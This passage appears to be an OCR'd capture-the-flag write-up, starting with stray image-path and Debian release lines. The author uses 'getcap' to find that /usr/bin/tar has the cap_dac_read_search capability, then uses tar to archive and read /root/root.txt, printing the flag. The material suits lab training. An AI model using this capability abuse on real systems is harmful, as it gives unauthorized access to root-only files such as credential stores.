 VERSION_ID="10"

VERSION="10 (buster)"

VERSION_CODENAME=buster

ID=debian

HOME_URL="https://www.debian.org/"

SUPPORT_URL="https://www.debian.org/support"

BUG_REPORT_URL="https://bugs.debian.org/"

Thanks to pwn4magic for showing me the method below.

getcap scans the system for files with special capabilities.

For more information visit:
https://nxnjz.net/2018/08/an-interesting-privilege-escalation-vector-getcap/

First set \$PATH variable to the full path.

norris\@sirrom:/tmp\$ export
PATH=\$PATH:/usr/sbin:/usr/local/sbin:/usr/local/bin:/usr/bin:/sbin:/bin:/usr/games

Next scan the system for files with special capabilities.

norris\@sirrom:/tmp\$ getcap -r / 2\>/dev/null

/usr/lib/x86_64-linux-gnu/gstreamer1.0/gstreamer-1.0/gst-ptp-helper =
cap_net_bind_service,cap_net_admin+ep

/usr/bin/tar = cap_dac_read_search+ep

/usr/bin/gnome-keyring-daemon = cap_ipc_lock+ep

/usr/bin/ping = cap_net_raw+ep

norris\@sirrom:/tmp\$ ls -laht /usr/bin/tar

\-r-xr-x--- 1 root norris 436K Apr 23 2019 /usr/bin/tar

### Root Flag

Looks like tar is one of those files, which let’s one get the root flag.

norris\@sirrom:/tmp/etc\$ /usr/bin/tar -cvf root_txt.tar /root/root.txt

/usr/bin/tar: Removing leading \`/' from member names

/root/root.txt

norris\@sirrom:/tmp/etc\$ tar -xvf root_txt.tar

root/root.txt

norris\@sirrom:/tmp/etc\$ cat root/root.txt

8fc9376d961670ca10be270d52eda423
